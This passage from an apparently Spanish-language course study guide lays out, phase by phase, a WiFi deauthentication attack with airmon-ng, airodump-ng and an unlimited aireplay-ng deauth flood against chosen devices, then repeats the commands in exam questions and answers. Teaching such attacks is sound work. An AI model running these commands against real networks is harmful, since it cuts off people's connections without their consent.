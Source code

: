 1. **Activar modo monitor:** `sudo airmon-ng start wlan0`
2. **Confirmar activación:** `iwconfig`
3. **Verificar pérdida de conectividad** (normal en modo monitor)

### **Fase 3: Reconocimiento de Objetivos**

1. **Escanear redes:** `airodump-ng -a wlan0`
2. **Identificar red objetivo**
3. **Anotar BSSID y canal**
4. **Detener escaneo:** `Ctrl+C`

### **Fase 4: Monitoreo Específico**

1. **Enfocar en red objetivo:** `airodump-ng -c [CANAL] --bssid [BSSID] wlan0`
2. **Identificar dispositivos conectados**
3. **Seleccionar dispositivo objetivo**

### **Fase 5: Ejecución del Ataque**

1. **Abrir nueva terminal**
2. **Ejecutar desautenticación:** `aireplay-ng --deauth 0 -a [BSSID] -c [MAC_DISPOSITIVO] wlan0`
3. **Monitorear efectividad del ataque**
4. **Repetir con otros dispositivos si es necesario**

---

## **❓ PREGUNTAS Y RESPUESTAS PARA EXÁMENES**

### **Preguntas Técnicas Básicas**

**P1: ¿Qué es el modo monitor en una tarjeta de red WiFi?** **R:** Es un modo que permite capturar todo el tráfico WiFi en el aire sin necesidad de estar conectado a ninguna red específica.

**P2: ¿Por qué se pierde la conectividad a internet al activar el modo monitor?** **R:** Porque la tarjeta de red cambia de modo "managed" (conectada) a modo "monitor" (solo escucha), dejando de funcionar como cliente WiFi normal.

**P3: ¿Qué información se necesita para realizar un ataque de desautenticación?** **R:** BSSID del punto de acceso, canal de operación, y MAC address del dispositivo objetivo.

### **Preguntas de Procedimiento**

**P4: ¿Cuál es la secuencia correcta de comandos para iniciar el ataque?** **R:**

1. `iwconfig` (verificar interfaces)
2. `sudo airmon-ng start wlan0` (activar monitor)
3. `airodump-ng -a wlan0` (escanear redes)
4. `airodump-ng -c [canal] --bssid [bssid] wlan0` (monitorear objetivo)
5. `aireplay-ng --deauth 0 -a [bssid] -c [mac] wlan0` (atacar)

**P5: ¿Cómo se identifica el dispositivo correcto para desconectar?** **R:** Mediante el monitoreo de la red objetivo, observando las MAC addresses de los dispositivos conectados y probando sistemáticamente hasta encontrar el correcto.
